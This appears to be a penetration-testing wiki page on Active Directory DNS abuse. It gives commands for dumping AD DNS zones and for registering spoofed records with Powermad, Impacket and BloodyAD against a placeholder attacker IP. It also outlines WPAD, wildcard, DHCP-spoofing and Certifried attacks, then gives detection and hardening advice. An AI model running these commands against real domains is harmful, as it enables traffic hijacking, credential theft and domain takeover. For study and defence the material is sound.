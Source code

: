 # AD DNS Records

By default **any user** in Active Directory can **enumerate all DNS records** in the Domain or Forest DNS zones, similar to a zone transfer (users can list the child objects of a DNS zone in an AD environment).

The tool [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) enables **enumeration** and **exporting** of **all DNS records** in the zone for recon purposes of internal networks.

```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```

>  adidnsdump v1.4.0 (April 2025) adds JSON/Greppable (`--json`) output, multi-threaded DNS resolution and support for TLS 1.2/1.3 when binding to LDAPS  

For more information read [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## Creating / Modifying records (ADIDNS spoofing)

Because the **Authenticated Users** group has **Create Child** on the zone DACL by default, any domain account (or computer account) can register additional records.  This can be used for traffic hijacking, NTLM relay coercion or even full domain compromise.

### PowerMad / Invoke-DNSUpdate (PowerShell)

```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```

### Impacket – dnsupdate.py  (Python)

```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```

*(dnsupdate.py ships with Impacket ≥0.12.0)*

### BloodyAD

```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```

---

## Common attack primitives

1. **Wildcard record** – `*.<zone>` turns the AD DNS server into an enterprise-wide responder similar to LLMNR/NBNS spoofing. It can be abused to capture NTLM hashes or to relay them to LDAP/SMB.  (Requires WINS-lookup to be disabled.)    
2. **WPAD hijack** – add `wpad` (or an **NS** record pointing to an attacker host to bypass the Global-Query-Block-List) and transparently proxy outbound HTTP requests to harvest credentials.  Microsoft patched the wildcard/ DNAME bypasses (CVE-2018-8320) but **NS-records still work**.    
3. **Stale entry takeover** – claim the IP address that previously belonged to a workstation and the associated DNS entry will still resolve, enabling resource-based constrained delegation or Shadow-Credentials attacks without touching DNS at all.    
4. **DHCP → DNS spoofing** – on a default Windows DHCP+DNS deployment an unauthenticated attacker on the same subnet can overwrite any existing A record (including Domain Controllers) by sending forged DHCP requests that trigger dynamic DNS updates (Akamai “DDSpoof”, 2023).  This gives machine-in-the-middle over Kerberos/LDAP and can lead to full domain takeover.    
5. **Certifried (CVE-2022-26923)** – change the `dNSHostName` of a machine account you control, register a matching A record, then request a certificate for that name to impersonate the DC. Tools such as **Certipy** or **BloodyAD** fully automate the flow.  

---

## Detection & hardening

* Deny **Authenticated Users** the *Create all child objects* right on sensitive zones and delegate dynamic updates to a dedicated account used by DHCP.
* If dynamic updates are required, set the zone to **Secure-only** and enable **Name Protection** in DHCP so that only the owner computer object can overwrite its own record.
* Monitor DNS Server event IDs 257/252 (dynamic update), 770 (zone transfer) and LDAP writes to `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Block dangerous names (`wpad`, `isatap`, `*`) with an intentionally-benign record or via the Global Query Block List.
* Keep DNS servers patched – e.g., RCE bugs CVE-2024-26224 and CVE-2024-26231 reached **CVSS 9.8** and are remotely exploitable against Domain Controllers.  

## References

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL and More”  (2018, still the de-facto reference for wildcard/WPAD attacks)  
* Akamai – “Spoofing DNS Records by Abusing DHCP DNS Dynamic Updates” (Dec 2023)

